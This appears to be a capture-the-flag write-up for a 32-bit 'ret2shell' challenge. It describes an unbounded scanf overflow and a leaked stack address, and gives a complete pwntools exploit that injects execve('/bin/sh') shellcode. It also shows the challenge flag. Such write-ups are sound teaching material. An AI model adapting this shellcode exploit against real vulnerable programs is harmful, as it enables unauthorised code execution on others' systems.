




## ret2shell
### Architecture and protections
The binary is x32, with executable stack and no canary.



### Static analysis
In `main()`, after providing an input, the program leaks the address of the start of the input buffer at line 24. There is also a vulnerable `scanf()` at line 16, which has been set to accept input until a newline is detected, regardless of length.



### Exploit planning
1. Send a single `char` as a dummy input to leak the address of the start of the input buffer.
2. Input `Y` to loop the program, this time sending the actual payload.
3. Input `N` to end the loop, causing the program to return to the injected shellcode.

### Exploit crafting
Finding the pad length required:



### Exploit code
```python
from pwn import *

def print_success(msg):
    print("[\033[1;92m+\033[0m] " + f"{msg}")

elf = context.binary = ELF('./ITSOVER', checksec=False)
context.log_level = "error"

p = process()

p.sendlineafter(b"Info : ", b"A")
buffer = int(p.recvline().split(b":")[0],16)
print_success(f"buffer : {hex(buffer)}")

shellcode = asm("""
    xor ecx, ecx
    mul ecx
    push eax
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    mov al, 0xb
    int 0x80
""")

pad_length = 140 - len(shellcode)
assert pad_length > 0, "Shellcode too large!"
print_success(f"shellcode : {len(shellcode)} bytes")

payload = flat(
    shellcode,
    pad_length * b'A',
    buffer
)

p.sendline(b"Y")
p.sendline(payload)
p.sendline(b"N")
sleep(0.1)
p.sendline(b"cat flag.txt")
p.interactive()

# CDDC2025{You_Thought_Flag_is_GAMEOVER?}
```

### Exploit success

